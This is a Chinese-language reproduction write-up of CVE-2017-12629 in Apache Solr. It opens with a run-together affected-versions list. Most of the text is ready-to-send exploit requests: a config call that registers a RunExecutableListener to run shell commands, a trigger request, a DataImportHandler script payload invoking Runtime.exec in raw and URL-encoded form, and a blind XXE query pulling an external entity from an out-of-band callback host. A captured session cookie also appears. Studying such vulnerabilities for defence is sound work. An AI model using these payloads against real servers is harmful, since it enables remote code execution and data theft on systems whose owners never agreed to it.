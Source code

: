 （CVE-2017-12629）Apache Solr rce&xxe 漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

Redhat Single Sign-On 7.0+ Redhat Linux 6.2 E sparc+ Redhat Linux 6.2 E i386+ Redhat Linux 6.2 E alpha+ Redhat Linux 6.2 sparc+ Redhat Linux 6.2 i386+ Redhat Linux 6.2 alphaRedhat JBoss Portal Platform 6Redhat JBoss EAP 7 0Redhat Jboss EAP 6Redhat JBoss Data Grid 7.0.0Redhat Enterprise Linux 6+ Trustix Secure Enterprise Linux 2.0+ Trustix Secure Linux 2.2+ Trustix Secure Linux 2.1+ Trustix Secure Linux 2.0Redhat Collections for Red Hat Enterprise Linux 0Apache Solr 6.6.1Apache Solr 6.6Apache Solr 6.5.1Apache Solr 6.5Apache Solr 6.4Apache Solr 6.3Apache Solr 6.2Apache Solr 6.6Apache Solr 6.3Apache Solr 6.0Apache Lucene 0

三、复现过程
------------

### rce 姿势一

-   首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```{=html}
<!-- -->
```
    POST /solr/demo/config HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    Content-Length: 158

    {"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}

![](./.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId25.png)

在solr管理界面新建了listen

![](./.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId26.png)

-   然后进行update操作，触发刚才添加的listener：

```{=html}
<!-- -->
```
    POST /solr/demo/update HTTP/1.1
    Host: 10.0.83.79:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 15

    [{"id":"test"}]

![](./.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId27.png)

### rce 姿势二

![](./.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId29.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

    <dataConfig>
      <dataSource type="URLDataSource"/>
      <script><![CDATA[
              function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
              }
      ]]></script>
      <document>
        <entity name="stackoverflow"
                url="https://stackoverflow.com/feeds/tag/solr"
                processor="XPathEntityProcessor"
                forEach="/feed"
                transformer="script:poc" />
      </document>
    </dataConfig>

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)

    POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest
    Content-Length: 679
    Connection: close
    Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

    command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

![](./.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId30.png)

### xxe

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind
XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

    GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
    Host: your-ip:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

使用`ceye`

发送payload

![](./.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId32.png)

ceye接收

![](./.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId33.png)

参考链接
--------

> https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/
